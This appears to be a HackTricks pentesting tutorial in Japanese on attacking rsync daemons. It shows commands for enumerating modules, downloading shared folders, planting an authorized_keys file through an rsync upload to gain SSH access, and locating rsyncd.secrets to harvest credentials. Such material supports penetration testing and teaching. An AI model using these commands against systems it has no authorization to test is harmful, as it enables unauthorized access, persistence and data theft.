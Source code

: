 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **基本情報**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** は、コンピュータと外部ハードドライブ間、または [ネットワーク接続された](https://en.wikipedia.org/wiki/Computer\_network) [コンピュータ](https://en.wikipedia.org/wiki/Computer) 間で、ファイルの [変更時間](https://en.wikipedia.org/wiki/Timestamping\_\(computing\)) とサイズを比較することによって、効率的に [転送](https://en.wikipedia.org/wiki/File\_transfer) および [同期](https://en.wikipedia.org/wiki/File\_synchronization) するためのユーティリティです。[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) 一般的に [Unix系](https://en.wikipedia.org/wiki/Unix-like) [オペレーティングシステム](https://en.wikipedia.org/wiki/Operating\_system) で見られます。rsync アルゴリズムは [デルタエンコーディング](https://en.wikipedia.org/wiki/Delta\_encoding) の一種であり、ネットワーク使用量を最小限に抑えるために使用されます。[Zlib](https://en.wikipedia.org/wiki/Zlib) は追加の [データ圧縮](https://en.wikipedia.org/wiki/Data\_compression) に使用されることがあり、[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) または [stunnel](https://en.wikipedia.org/wiki/Stunnel) はセキュリティのために使用されることがあります。

**デフォルトポート:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## 列挙

### バナーと手動通信
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **共有フォルダの列挙**

**Rsyncモジュール**は、**パスワードで保護されている可能性のあるディレクトリ共有**として認識されます。利用可能なモジュールを特定し、それらがパスワードを必要とするかどうかを確認するために、以下のコマンドが使用されます：
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
注意すべきは、いくつかの共有がリストに表示されない可能性があり、それらが隠されていることです。さらに、いくつかの共有へのアクセスは特定の**資格情報**に制限されている場合があり、**「アクセス拒否」**メッセージで示されます。

### [**ブルートフォース**](../generic-methodologies-and-resources/brute-force.md#rsync)

### 手動Rsyncの使用

**モジュールリスト**を取得した後、アクションは認証が必要かどうかによって異なります。認証がない場合、共有フォルダからローカルディレクトリへの**リスト**および**コピー**は次のように実行されます：
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
このプロセスは**再帰的にファイルを転送**し、それらの属性と権限を保持します。

**資格情報**を使用すると、共有フォルダーからのリスト作成とダウンロードは次のように行うことができ、パスワードプロンプトが表示されます：
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
コンテンツを**アップロード**するには、アクセス用の_**authorized_keys**_ファイルなどを使用します:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd設定ファイルを見つけるには、次のコマンドを実行します:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
このファイル内で、_secrets file_ パラメータは、rsyncd 認証のための **ユーザー名とパスワード** を含むファイルを指す可能性があります。

## 参考文献
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
